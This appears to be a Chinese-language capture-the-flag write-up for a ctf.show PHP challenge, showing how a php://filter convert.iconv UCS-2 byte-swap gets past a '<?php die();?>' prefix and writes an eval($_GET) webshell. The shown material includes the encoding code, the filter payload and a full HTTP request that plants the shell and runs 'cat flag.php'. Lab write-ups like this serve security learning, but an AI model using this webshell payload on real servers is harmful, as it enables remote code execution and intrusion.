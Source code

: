 题目禁用了杂糅可以用的过滤器zlib、utf、rot13、base64、string

要利用上面的杂糅过`<?php die();?>`的方法只能找新的替代，可以用convert.iconv这个过滤器，这个过滤器相当于使用了iconv函数

```php
string iconv(string input_encoding, string output_encoding, string str);
```

- `input_encoding`：输入字符串的编码。
- `output_encoding`：转换后的编码。
- `str`：需要转换编码的原始字符串。

这里使用的是UCS-2编码（也可以使用其他可以用于杂糅的编码，比如UCS-4、USC-16不过这些编码都要注意，编码文本的要求比如UCS-2要求编码字符是2的倍数，UCS-4是4的倍数，USC-16是16的倍数）将原始payload转换成编码后字符

```php
<?php
    echo iconv("UCS-2LE","UCS-2BE",'<?php eval($_GET[aa]);?>');
?>
    
// --->  ?<hp pvela$(G_TEa[]a;)>?
```

然后构造payload

file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php

contents=?<hp pvela$(G_TEa[]a;)>? //注意要进行url编码

完整payload：

```http
POST /?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=1.php HTTP/1.1
Host: f15124d9-4686-436c-9aae-2b94034b35d8.challenge.ctf.show
Content-Length: 53
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="130", "Microsoft Edge";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://f15124d9-4686-436c-9aae-2b94034b35d8.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://f15124d9-4686-436c-9aae-2b94034b35d8.challenge.ctf.show/1.php?aa=system(%27cat%20flag.php%27);
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

contents=%3F%3Chp+pvela%24%28G_TEa%5B%5Da%3B%29%3E%3F
```
